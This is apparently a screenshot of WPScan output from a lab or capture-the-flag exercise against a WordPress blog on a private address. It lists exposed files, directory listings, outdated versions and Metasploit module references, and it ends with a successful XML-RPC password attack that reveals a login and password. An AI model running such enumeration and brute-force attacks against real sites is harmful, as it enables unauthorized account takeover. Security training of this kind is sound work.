 ```code
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.202.113/myblog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.202.113/myblog/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.202.113/myblog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.6.2 identified (Outdated, released on 2024-09-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.202.113/myblog/feed/, <generator>https://wordpress.org/?v=6.6.2</generator>
 |  - http://10.10.202.113/myblog/comments/feed/, <generator>https://wordpress.org/?v=6.6.2</generator>

[+] WordPress theme in use: twentytwentyfour
 | Location: http://10.10.202.113/myblog/wp-content/themes/twentytwentyfour/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://10.10.202.113/myblog/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.3
 | [!] Directory listing is enabled
 | Style URL: http://10.10.202.113/myblog/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.202.113/myblog/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:07 <==============================================================================================================> (137 / 137) 100.00% Time: 00:00:07

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - carlos / brooklyn                                                                                                                                                                
```